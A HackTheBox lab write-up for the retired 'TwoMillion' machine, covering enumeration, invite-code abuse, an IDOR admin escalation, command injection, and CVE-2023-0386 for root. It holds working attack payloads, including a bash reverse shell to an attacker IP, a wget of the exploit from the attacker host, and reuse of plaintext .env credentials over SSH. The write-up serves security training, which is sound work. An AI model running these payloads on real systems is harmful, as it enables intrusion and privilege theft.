<div align="center">



</div>

## 📌 Overview

TwoMillion is a retired Linux machine on HackTheBox. The entire web application is a faithful recreation of the original HTB platform — the one that existed before the current site. The invite system, the dashboard, the VPN generation: all of it is modelled after how the real HTB used to work. Which means to get in, you have to do what people did to get into the real HTB back in the day — hack your way past the invite page.

This machine is built entirely around reading. Every step comes from either reading JavaScript, reading API responses, or reading configuration files left in places they should not be. Nobody drops a weaponized exploit into a login form. You think through what the application is doing and use it against itself. That discipline — read before you act — is the real lesson here.

The privilege escalation path, CVE-2023-0386, is a kernel-level OverlayFS vulnerability. When the kernel itself is vulnerable, you skip every other hardening layer and go straight to root.

---

## 🛠 Tools Used

```
nmap                  → port and service discovery
gobuster              → directory brute forcing
curl                  → API interaction and invite code generation
CyberChef             → ROT13 decoding
Burp Suite            → API enumeration and privilege escalation
netcat                → reverse shell listener
CVE-2023-0386 PoC     → kernel privilege escalation
```

---

## 🎯 Target Information

| Field        | Value                              |
| ------------ | ---------------------------------- |
| Target IP    | 10.129.229.66                      |
| Domain       | 2million.htb                       |
| OS           | Linux (Ubuntu 22.04)               |
| Key Services | SSH (22), HTTP/nginx (80)          |
| Goal         | Read root.txt from /root           |

---

## 🧭 Walkthrough

### Step 1 — Service Discovery (Nmap)

**Goal:** Identify all open ports and understand the attack surface before touching anything else.

```bash
sudo nmap -T4 -sV -A -Pn 10.129.229.66
```

`-sV` probes each port to identify the service and version. `-A` enables OS detection, script scanning, and traceroute. `-Pn` skips host discovery — useful when ICMP is filtered and nmap would otherwise report the host as down.



**Key findings:**

| Port   | Service | Detail                            |
| ------ | ------- | --------------------------------- |
| 22/tcp | SSH     | Locked until credentials obtained |
| 80/tcp | HTTP    | nginx, redirects to 2million.htb  |

Two ports. SSH is there but inaccessible without credentials. The web server redirects everything to `2million.htb`, so the first action is adding the domain to the hosts file:

```bash
echo '10.129.229.66 2million.htb' >> /etc/hosts
```

Before opening the browser, grab the response headers with curl to understand what the server is telling us about itself:

```bash
curl -i http://2million.htb
```



```
HTTP/1.1 200 OK
Server: nginx
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Set-Cookie: PHPSESSID=a2naod0svconcrk79t4v4jv9e; path=/
```

Two things worth noting. The `PHPSESSID` cookie confirms this is a PHP application — that session cookie becomes critical later as our API authentication. The `Connection: keep-alive` header means the server holds connections open rather than closing them after each request. This caused direct problems with Gobuster in the next step.

---

### Step 2 — Directory Enumeration (Gobuster)

**Goal:** Map all accessible paths on the web server before interacting with any of them.

```bash
gobuster dir \
  -u http://2million.htb \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x html,txt,php \
  --exclude-length 162 -t 25 --timeout 200s -k
```

Gobuster immediately threw timeout errors because of the `Connection: keep-alive` header. The server holds connections open and the default timeout was too short. The fix is `--timeout 200s`. The `--exclude-length 162` filters wildcard redirect responses. The `-k` flag skips TLS certificate verification.



After fixing the parameters, results started coming in:



**Results:**

| Path          | Status | Significance                 |
| ------------- | ------ | ---------------------------- |
| /home         | 302    | Authenticated area           |
| /login        | 200    | Login page                   |
| /register     | 200    | Registration page            |
| /invite       | 200    | Invite code entry page       |
| /api          | 401    | API exists but requires auth |
| /logout       | 302    | Session termination          |
| /Database.php | 200    | PHP database file exposed    |

The two most important findings: `/api` returning 401 (it exists but requires authentication) and `/invite` returning 200 (a real, accessible page). Both are where the real work begins.

---

### Step 3 — Invite Page JavaScript Analysis

**Goal:** Understand how the invite system works by reading the code rather than guessing.

Navigating to `http://2million.htb/invite` shows a page with a single message — *"Hi! Feel free to hack your way in :)"* — and a code entry box. No hints, no visible forms.

The invite code is not generated client-side. Something on the server has to produce it. That means JavaScript on this page is communicating with a backend API to handle invite logic. Open browser DevTools, go to the Network tab, and watch which JavaScript files load.



Two files are visible: `/js/htb-frontend.min.js` and `/js/inviteapi.min.js`. The filename `inviteapi.min.js` is the immediate signal — a dedicated file for invite API calls. Download both for offline reading:

```bash
curl -k http://2million.htb/js/htb-frontend.min.js -o frontend.js
```



```bash
curl -k http://2million.htb/js/inviteapi.min.js -o inviteapi.js
```





The invite JavaScript is obfuscated using the `eval(function(p,a,c,k,e,d)...)` pattern — packed JavaScript. This is not encryption, just compression to make it harder to read at a glance. Any JS deobfuscator will reverse it. After deobfuscating, two API endpoints become visible:



```
verifyInviteCode  →  POST  /api/v1/invite/verify
makeInviteCode    →  POST  /api/v1/invite/how/to/generate
```

One endpoint verifies a code. One gives instructions on how to generate one. The second is exactly what we need.

---

### Step 4 — Invite Code Generation

**Goal:** Follow the API's own instructions to generate a valid invite code and register an account.

#### Getting the Hint

The JavaScript confirmed this endpoint uses POST:

```bash
curl -k -X POST http://2million.htb/api/v1/invite/how/to/generate
```



```json
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

The server reports the encryption type directly: ROT13. ROT13 shifts every letter by 13 positions — not real encryption, just basic obfuscation. Decode it in CyberChef:



```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

#### Generating the Code

```bash
curl -k -X POST http://2million.htb/api/v1/invite/generate
```



```json
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "T1Y0NUgtUE5VUUktNVBSQkEtRktVMDQ=",
    "format": "encoded"
  }
}
```

The trailing `=` is the base64 padding giveaway. Decode it:

```bash
echo "T1Y0NUgtUE5VUUktNVBSQkEtRktVMDQ=" | base64 -d
```

```
OV45H-PNUQI-5PRBA-FKU04
```

#### Registering an Account

Enter the code on `/invite`, which redirects to `/register`:



Fill in the registration form and submit:



Log in with the new account:



After login the full HTB dashboard loads — we are in as a regular user:



---

### Step 5 — Authenticated API Enumeration

**Goal:** Map the full API surface now that we have a valid session cookie.

With a valid session, the `/api` endpoint that was returning 401 should now respond. The `PHPSESSID` from our login is what authenticates us:

```bash
curl http://2million.htb/api/v1 \
  -H 'Cookie: PHPSESSID=vae7cvb6m0hhs8ii7mmd28nfhs' | jq .
```



The response is the entire API route map:

```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

The admin section is immediately interesting. Three endpoints: check admin status, generate VPN configs for specific users, and a PUT endpoint to update user settings. That settings update endpoint takes user-supplied data and modifies account properties — which is exactly where the IDOR will be.

---

### Step 6 — Horizontal Privilege Escalation via IDOR

**Goal:** Elevate the current account to admin by exploiting a missing server-side authorization check.

#### Checking Current Privilege

Using Burp Suite Repeater for cleaner API interaction. First confirm current status:

```http
GET /api/v1/user/auth HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=vae7cvb6m0hhs8ii7mmd28nfhs
```



```json
{
  "loggedin": true,
  "username": "stager",
  "is_admin": 0
}
```

`is_admin: 0`. Not an admin yet.

#### Exploiting the Settings Endpoint

Send a PUT request to `/api/v1/admin/settings/update` with an empty JSON body. Sending without `Content-Type: application/json` first returns an invalid content type error — add the header and the server responds with exactly what parameters it needs:

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=vae7cvb6m0hhs8ii7mmd28nfhs
Content-Type: application/json

{}
```

```json
{ "status": "danger", "message": "Missing parameter: email" }
```

The server reveals its expected parameters through error messages. Add `email` and it asks for `is_admin`. This is the vulnerability — the server trusts the client to supply the `is_admin` value with no authorization check:

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=vae7cvb6m0hhs8ii7mmd28nfhs
Content-Type: application/json

{
  "email": "stager@gmail.com",
  "is_admin": 1
}
```



```json
{
  "id": 13,
  "username": "stager",
  "is_admin": 1
}
```

Done. This is a classic IDOR — Insecure Direct Object Reference. The server never verified that the person making the request had the authority to elevate their own privileges.

#### Confirming Admin Status

```http
GET /api/v1/admin/auth HTTP/1.1
Cookie: PHPSESSID=vae7cvb6m0hhs8ii7mmd28nfhs
```



```json
{ "message": true }
```

We are now admin.

---

### Step 7 — Remote Code Execution via Command Injection

**Goal:** Achieve a shell on the target by exploiting unsanitized input in the admin VPN generation endpoint.

#### Finding the Injection Point

With admin privileges, `POST /api/v1/admin/vpn/generate` is now accessible. This endpoint generates an OpenVPN config for a given username. The username gets passed to a shell command to build the config — with no sanitization. Test with Burp Repeater:

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=vae7cvb6m0hhs8ii7mmd28nfhs
Content-Type: application/json

{"username": "stager;id;"}
```



```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The semicolons broke out of the shell command and executed `id` directly. The output appeared in the HTTP response body. This is textbook OS command injection — the username parameter hits a shell with no input validation.

#### Getting the Reverse Shell

Set up a netcat listener on the attack machine:

```bash
nc -lvnp 2233
```

Send the reverse shell payload through Burp Repeater:

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=vae7cvb6m0hhs8ii7mmd28nfhs
Content-Type: application/json

{"username": "stager$(bash -c 'bash -i >& /dev/tcp/10.10.17.239/2233 0>&1')"}
```



Netcat catches the connection:



```
connect to [10.10.17.239] from (UNKNOWN) [10.129.229.66] 40094
www-data@2million:~/html$
```

Shell obtained as `www-data`.

---

### Step 8 — Credential Discovery and Lateral Movement

**Goal:** Escalate from `www-data` to a real system user by finding credentials in the web application files.

As `www-data` we are inside `/var/www/html`. The first action in any web application compromise is reading the configuration files — they almost always contain database credentials.

```bash
ls -la /var/www/html
```

```
-rw-r--r--  Database.php
-rw-r--r--  .env
drwxr-xr-x  controllers/
drwxr-xr-x  views/
drwxr-xr-x  VPN/
```

The `.env` file is where PHP applications store environment configuration. Read it:

```bash
cat /var/www/html/.env
```



```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Credentials in plaintext. People frequently reuse system passwords for database accounts. Try SSH immediately:

```bash
ssh admin@2million.htb
```

Password `SuperDuperPass123` works. Shell obtained as `admin` — a real system user with a home directory.

**User flag captured.**

---

### Step 9 — Post-Exploitation Enumeration

**Goal:** Find the privilege escalation path from `admin` to `root`.

Standard post-exploitation: check what files belong to this user.

```bash
find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
```



```
/home/admin
/home/admin/.cache
/home/admin/.ssh
/home/admin/.profile
/home/admin/.bash_logout
/home/admin/.bashrc
/var/mail/admin
/dev/pts/0
```

`/var/mail/admin` stands out — mail directories get forgotten. Read it:

```bash
cat /var/mail/admin
```



```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Subject: Urgent: Patch System OS

Hey admin,

I'm know you're working as fast as you can to do the DB migration.
While we're partially down, can you also upgrade the OS on our web host?
There have been a few serious Linux kernel CVEs already this year.
That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

The email points directly at the privilege escalation path: an OverlayFS/FUSE kernel vulnerability. This is CVE-2023-0386. The machine communicates the CVE through its own in-game email system.

---

### Step 10 — Privilege Escalation (CVE-2023-0386)

**Goal:** Escalate from `admin` to `root` by exploiting a kernel-level OverlayFS vulnerability.

#### Understanding CVE-2023-0386

CVE-2023-0386 is a Linux kernel privilege escalation in the OverlayFS filesystem — the technology that Docker uses to layer filesystems on top of each other. The vulnerability exists because the kernel does not properly validate file capabilities when a file is copied from an unprivileged OverlayFS layer into the upper layer.

The attack works by:
1. Creating a fake FUSE filesystem
2. Planting a SUID binary inside an OverlayFS overlay on top of it
3. Triggering the kernel to execute it

The kernel copies the file without stripping its capabilities, giving root execution. The exploit requires two terminals working simultaneously — one runs the fake filesystem, the other triggers the exploit binary.

#### Downloading and Building the PoC

On the attack machine, clone the public PoC and serve it over HTTP:

```bash
git clone https://github.com/sxlmnwb/CVE-2023-0386
cd CVE-2023-0386
make all
python3 -m http.server 80
```

On the target, pull it down and extract:

```bash
wget http://10.10.17.239/cve-2023-0386.tar.bz2
tar -xjf cve-2023-0386.tar.bz2
```



#### Running the Exploit

The exploit requires two simultaneous terminal sessions on the target.

**Terminal 1:**

```bash
cd CVE-2023-0386
./fuse ./ovlcap/lower ./gc
```

**Terminal 2:**

```bash
./exp
```



```
[+] mount success
-rwsrwxrwx 1 nobody nogroup 16096 Jan 1 19...
[+] exploit success!
```

Root shell obtained:

```bash
cd /root
cat root.txt
```



**Root flag captured. Machine fully compromised.**

---

## ✅ Proof of Compromise

| Flag     | Location               |
| -------- | ---------------------- |
| user.txt | `/home/admin/user.txt` |
| root.txt | `/root/root.txt`       |

Shell obtained as `www-data` via OS command injection → lateral movement to `admin` via plaintext `.env` credentials → root via CVE-2023-0386 OverlayFS kernel exploit.

---

## 🚀 Attack Chain Summary

```
nmap → ports 22 and 80, nginx, redirect to 2million.htb
  ↓
echo hosts entry → 2million.htb resolves
  ↓
curl -i → PHPSESSID confirms PHP app, keep-alive noted
  ↓
gobuster --timeout 200s → /invite, /api (401), /register found
  ↓
browser DevTools Network tab → inviteapi.min.js loading on /invite
  ↓
curl download inviteapi.min.js → deobfuscate eval() packed JS
  ↓
two endpoints found: /api/v1/invite/how/to/generate and /api/v1/invite/verify
  ↓
curl POST /api/v1/invite/how/to/generate → ROT13 encoded hint
  ↓
CyberChef ROT13 decode → "make a POST request to /api/v1/invite/generate"
  ↓
curl POST /api/v1/invite/generate → base64 encoded invite code
  ↓
base64 -d → OV45H-PNUQI-5PRBA-FKU04 → registered account
  ↓
logged in → got PHPSESSID session cookie
  ↓
curl GET /api/v1 with cookie → full API route map exposed
  ↓
Burp Suite → GET /api/v1/user/auth → confirmed is_admin: 0
  ↓
Burp Suite → PUT /api/v1/admin/settings/update + {is_admin: 1} → IDOR → admin
  ↓
Burp Suite → GET /api/v1/admin/auth → confirmed {"message": true}
  ↓
Burp Suite → POST /api/v1/admin/vpn/generate + {username: "stager;id;"} → RCE confirmed
  ↓
nc -lvnp 2233 → bash reverse shell payload through Burp → shell as www-data
  ↓
cat /var/www/html/.env → DB_PASSWORD=SuperDuperPass123
  ↓
ssh admin@2million.htb → shell as admin → user flag captured
  ↓
find / -user admin → /var/mail/admin found
  ↓
cat /var/mail/admin → OverlayFS / FUSE CVE hint → CVE-2023-0386
  ↓
clone and build CVE-2023-0386 PoC → transfer to target
  ↓
two terminals: ./fuse ./ovlcap/lower ./gc + ./exp → root shell
  ↓
cat /root/root.txt → machine fully compromised
```

---

## 🧠 What This Lab Teaches

* **Read the JavaScript before you brute force** — every API endpoint has to be called from somewhere, and that somewhere is the frontend JavaScript. The invite API endpoints were sitting in plain sight inside an obfuscated file. CyberChef or any JS deobfuscator reveals them instantly. Download and read JS before running any wordlist.

* **Servers reveal their own structure through error messages** — the admin settings update endpoint responded to an empty body by telling us exactly which parameter it was missing. That is an application design failure, not a Burp Suite quirk. Proper APIs never reveal internal parameter names to unauthorized users.

* **IDOR is still everywhere** — setting `is_admin: 1` in the request body and having the server accept it is one of the most common vulnerabilities in real applications. The application trusted the client to determine its own privilege level. No amount of frontend design prevents that — authorization must be enforced server-side on every request.

* **Read every config file in the web root** — the `.env` file is standard in PHP applications and almost always contains database credentials. From a `www-data` shell, reading the web root is the first action. It works here and it works constantly in real engagements.

* **Mail directories get forgotten** — `/var/mail/admin` provided the entire privilege escalation path as an in-game email. In real penetration tests, mail directories sometimes contain internal credentials, password reset tokens, and sensitive communications that nobody cleaned up.

* **Kernel exploits skip everything** — CVE-2023-0386 does not care about sudo rules, file permissions, or application hardening. When the kernel itself is vulnerable, you go straight to root. Patch your kernels.

---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

<div align="center">


</div>